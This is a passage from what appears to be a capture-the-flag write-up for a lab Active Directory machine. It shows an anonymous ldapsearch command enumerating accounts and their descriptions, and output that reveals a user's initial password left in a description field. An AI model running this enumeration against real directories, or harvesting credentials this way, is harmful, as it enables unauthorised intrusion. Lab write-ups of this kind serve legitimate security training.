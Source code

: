 - Enumerate samAccountName and description fields from the LDAP server anonymously

```bash
ldapsearch -H ldap://10.10.101.17 -x -b "DC=baby,DC=vl" | grep -Ei "sAMAccountName|description"
```

```bash
description: All workstations and servers joined to the domain
sAMAccountName: Domain Computers
description: Members of this group are permitted to publish certificates to th
sAMAccountName: Cert Publishers
description: All domain users
sAMAccountName: Domain Users
description: All domain guests
sAMAccountName: Domain Guests
description: Members in this group can modify group policy for the domain
sAMAccountName: Group Policy Creator Owners
description: Servers in this group can access remote access properties of user
sAMAccountName: RAS and IAS Servers
description: Members in this group can have their passwords replicated to all 
sAMAccountName: Allowed RODC Password Replication Group
description: Members in this group cannot have their passwords replicated to a
sAMAccountName: Denied RODC Password Replication Group
description: Members of this group are Read-Only Domain Controllers in the ent
sAMAccountName: Enterprise Read-only Domain Controllers
description: Members of this group that are domain controllers may be cloned.
sAMAccountName: Cloneable Domain Controllers
description: Members of this group are afforded additional protections against
sAMAccountName: Protected Users
description: DNS Administrators Group
sAMAccountName: DnsAdmins
description: DNS clients who are permitted to perform dynamic updates on behal
sAMAccountName: DnsUpdateProxy
sAMAccountName: dev
sAMAccountName: it
description: Built-in account for guest access to the computer/domain
sAMAccountName: Guest
sAMAccountName: Jacqueline.Barnett
sAMAccountName: Ashley.Webb
sAMAccountName: Hugh.George
sAMAccountName: Leonard.Dyer
sAMAccountName: Connor.Wilkinson
sAMAccountName: Joseph.Hughes
sAMAccountName: Kerry.Wilson
description: Set initial password to **BabyStart123!**
sAMAccountName: **Teresa.Bell**
sAMAccountName: Caroline.Robinson
```

![image.png](/assets/Images/VL_Baby/image%202.png)

- Extract and display samAccountName with corresponding description from LDAP in a structured format 

